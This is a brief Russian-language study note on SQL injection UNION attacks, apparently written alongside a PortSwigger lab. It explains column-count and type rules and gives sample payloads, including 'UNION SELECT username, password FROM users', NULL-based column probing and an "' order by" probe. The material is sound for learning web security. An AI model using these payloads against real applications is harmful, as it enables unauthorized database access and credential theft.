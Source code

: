 SQL injection Union attack

SQL UNION-атака — это тип SQL-инъекции, при которой злоумышленник добавляет в запрос оператор UNION, чтобы объединить результаты исходного запроса с результатами другого, управляемого им запроса. Это позволяет получить данные из других таблиц БД.

Правила использования UNION в SQL-инъекции:
Одинаковое количество столбцов — у обоих запросов (исходного и инъецированного) должно быть одинаковое число столбцов.

Совместимые типы данных — типы данных соответствующих столбцов должны совпадать или быть совместимыми.

UNION SELECT — ключевая конструкция, используемая для атаки (например: UNION SELECT username, password FROM users).

Часто требует обхода фильтров — например, добавление комментария (--) после инъекции.

way1

SELECT example1 FROM table1 UNION SELECT NULL
-error --> incorrect number of columns
SELECT example1 FROM table1 UNION SELECT NULL, NULL
-error --> incorrect number of columns
SELECT example1 FROM table1 UNION SELECT NULL, NULL, NULL
-200 response code --> correct number of columns

way2

SELECT a,b FROM table1 order by 1/2/3

' order by 1/2/3   payload

Ссылка на лаб:
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle
